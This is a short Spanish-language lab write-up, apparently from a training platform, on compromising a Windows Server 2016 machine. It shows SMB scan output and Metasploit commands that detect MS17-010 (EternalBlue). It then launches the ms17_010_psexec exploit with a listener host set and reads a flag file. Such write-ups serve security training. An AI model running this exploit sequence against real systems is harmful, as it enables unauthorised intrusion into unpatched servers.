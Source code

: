 ```
| smb2-time: 
|   date: 2025-09-04T10:18:29
|_  start_date: 2025-09-04T10:07:57

```

De aqui saco en claro varios puntos: 
- Seguramente estemos ante una máquina *windows*
- Utiliza el protocolo SMB.

Vamos a buscar si es vulnerable a EternalBlue:
```
use auxiliary/scanner/smb/smb_ms17_010
set RHOST 10.129.201.97
```

y nos devuelve que es potencialmente vulnerable a MS17-010 (EternalBlue):
```
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_ms17_010) >> run
[+] 10.129.201.97:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 10.129.201.97:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Vamos a lanzar un exploit que ataque a *Eternal Blue*, con:
```
search MS17-010
use exploit/windows/smb/ms17_010_psexec
set RHOST 10.129.201.97
set LHOST 10.10.15.80
run
```

Y en el directorio C:, encuentro la flag.txt con:
```
C:\>type flag.txt
type flag.txt
EB-Still-W0rk$
```


